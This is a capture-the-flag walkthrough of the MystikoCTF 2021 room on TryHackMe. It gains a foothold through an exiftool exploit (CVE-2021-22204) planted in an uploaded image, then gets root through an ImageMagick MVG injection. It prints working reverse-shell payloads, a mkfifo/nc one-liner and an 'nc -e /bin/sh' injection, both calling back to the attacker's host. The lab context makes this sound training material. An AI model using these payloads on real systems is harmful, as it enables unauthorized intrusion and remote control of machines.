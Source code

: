 ```yaml
---
title: MystikoCTF - THM - Walkthrough
tags: web thm privesc
---
```


![photo_2021-02-10_22-58-30](https://user-images.githubusercontent.com/84577967/174065612-9a8249f1-005f-4ba3-a752-d4b1ed44df25.jpg){:.circle}

Date: 21<sup>st</sup> / 22<sup>nd</sup> November 2021

# Description

> This is my writeup for the recent CTF hosted by Mystiko, which was held on TryHackMe. I had a great time participating in the CTF and found it to be very challenging and enjoyable. I would like to express my gratitude to the Mystiko team for organizing such a fantastic event and for creating such a compelling and challenging machine.

- THM Link: [MystikoCTF2021](https://tryhackme.com/room/mystikoctf2021)

- Difficulty: <font size="3" color="orange">Medium</font>

Unfortunately, I did not have a lot of time to dedicate to the CTF, but I was still able to achieve a strong finish and share third place with `cryptonic007`.

# Enumeration

The CTF had 3 different webapps

> Only PIXEL, DEV01 and DEV02 are in scope for this CTF. Do NOT attack any other IP address or hostname.

As a first step in the process of identifying and analyzing the target system, it is a good idea to run `nmap`:

```bash
nmap -sCV 10.10.206.211 -vvv                                        
```

There are two open ports on the target: ports 22 (SSH) and 8080 (Nginx WebServer)

Let's dig into the webserver

![2021-11-22_16-15-23](https://user-images.githubusercontent.com/84577967/174065713-a0a47901-3b89-4414-a30e-02d3615dbe00.png)

Upon examining the web server, I found that it appears to be an image uploader. I opened the source code of the page to see if there were any hidden comments, but I did not find any. I also confirmed that the server is only accepting image files.

![2021-11-22_16-17-33](https://user-images.githubusercontent.com/84577967/174065741-f3cc5bfc-daf1-47f3-a4fd-2d14d9f6805e.png)

I uploaded an image and used Burp Suite to capture and analyze the traffic

![2021-11-22_16-21](https://user-images.githubusercontent.com/84577967/174065770-d9db02ce-0dc7-4446-b6f7-f514078ed2f4.png)

I attempted to manipulate the file extension and MIME type in various ways, but none of these methods seemed to have any effect. However, while reviewing the responses from the server, I noticed something interesting.

![2021-11-22_16-22](https://user-images.githubusercontent.com/84577967/174065788-51716dc6-0104-47b2-8582-22839af29029.png)

I discovered that there was a hidden HTML heading in the response that contained information about the picture I had uploaded, including the MIME type, size, and image dimensions. This heading also contained a strange value that appeared to be a version number, starting with `10.61` !

I suspected that this heading might be related to the `exiftool` tool, so I looked for any recent vulnerabilities in exiftool that I could potentially exploit. I came across `CVE-2021-22204`, which I had not previously had the opportunity to try.

# Foothold

I tried several different public CVEs in an attempt to find one that would be effective in this situation. After testing multiple options, I was finally able to identify a working exploit.

https://github.com/bilkoh/POC-CVE-2021-22204

With the working exploit in hand, I was able to use the following command line to create the malicious image:

![2021-11-22_16-52-54](https://user-images.githubusercontent.com/84577967/174065814-033ab445-5963-42a8-bed3-5bb71f6a41a4.png)

So the picture will download a file `shell.sh` from my webserver and execute it.

`shell.sh` : 
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.2.95.202 9009 >/tmp/f
```

Let's upload the file 

![2021-11-21_13-29-19](https://user-images.githubusercontent.com/84577967/174065844-908a9f8d-be3d-4845-9b52-38593cb0fe39.png)

I set up a listener and then uploaded the malicious image to the server. As a result, I was able to successfully obtain a reverse shell.

![2021-11-22_16-56-09](https://user-images.githubusercontent.com/84577967/174065877-995382ea-7c6f-4bcb-999e-2fcc57128155.png)

Getting the first flag `local.txt` was pretty easy, the flag was in the home directory of our current user `pixel` and I was able to read it without any restrictions.

![2021-11-21_13-29-07](https://user-images.githubusercontent.com/84577967/174065895-f63a0342-78b3-413c-afe6-74034df064a5.png)

# Privilege Escalation

As a best practice, one of the first things I usually do after obtaining a reverse shell is to run the `sudo -l` command to check if there are any commands that I can execute using sudo.

![2021-11-21_13-30-34](https://user-images.githubusercontent.com/84577967/174065911-af8a4420-9d19-4ab2-8f98-74feca2b3ed2.png)

Perfect ! we have a binary called pixel . I copied this binary to my own machine in order to perform some reverse engineering and analysis.

![2021-11-21_13-31-02](https://user-images.githubusercontent.com/84577967/174065932-53d5f67c-92e4-4bf1-9ab0-20a30b8053ee.png)

I had to use ghidra, but I won't say much : nothing was interesting.

![2021-11-22_17-19-53](https://user-images.githubusercontent.com/84577967/174065960-2b860b8b-21c9-4215-8fc5-deff78ed1ef8.png)

I ran the binary on my own machine to performe some dynamic analysis.

![2021-11-21_13-31-10](https://user-images.githubusercontent.com/84577967/174065988-93c4886a-cd16-42d4-ae09-18656dc04771.png)

The binary appears to be an image toolkit created by the SIXER team. As part of my analysis, I chose to use the tool to convert an image to a PDF file and see what would happen.

![2021-11-21_13-32-36](https://user-images.githubusercontent.com/84577967/174066023-b2b56f4d-0d32-4cf4-b132-57be2cb43797.png)

The `Generating PDF` line show us that the binary is using the `/usr/local/bin/convert` tool to convert the image to a PDF. I had recently worked with a 2016 exploit involving `convert`, so I quickly returned to the Pixel machine to check the version of convert that was being used.

![2021-11-21_13-33-01](https://user-images.githubusercontent.com/84577967/174066040-8cc05195-ad7b-4a72-915a-ee83e6899263.png)

I was pleased to discover that the version of convert being used on the Pixel machine was indeed vulnerable to the exploit. By searching for ImageMagick exploit online, I was able to find a number of articles and resources that provided more information about this vulnerability and demonstrated various methods for exploiting it.

I followed these steps to exploit it:

1) Go to `/tmp/` directory.

1) Create a new file `exploit.mvg`:

```
push graphic-context
viewbox 0 0 640 480
fill 'url(https://example.com/image.jpg"|nc -e "/bin/sh" "10.2.95.202" "9009)'
pop graphic-context
```
![2021-11-21_13-27-19](https://user-images.githubusercontent.com/84577967/174066067-cb5331e8-00a6-48d7-a851-cbfd26c9fb04.png)

2) Set my listener on port 9009:

```
  nc -lvnp 9009
```
3) Run `sudo /usr/bin/pixel` and follow the steps as the image shows (instead of `x.jpg` enter `exploit.mvg`)

![2021-11-21_13-32-36](https://user-images.githubusercontent.com/84577967/174066087-18504f00-3749-4129-90cc-5ab238b6514e.png)

4) Going back to my listener to check if I got a reverse shell:

![2021-11-21_13-35-30](https://user-images.githubusercontent.com/84577967/174066111-a6238dc3-d7b7-48a8-8e7e-474ade679153.png)

And yes ! I gained root access to the system and I was able to read the second flag `proof.txt`

![2021-11-22_17-34-28](https://user-images.githubusercontent.com/84577967/174066152-8befadde-2aea-4454-b8ca-e03a52150dc2.png)
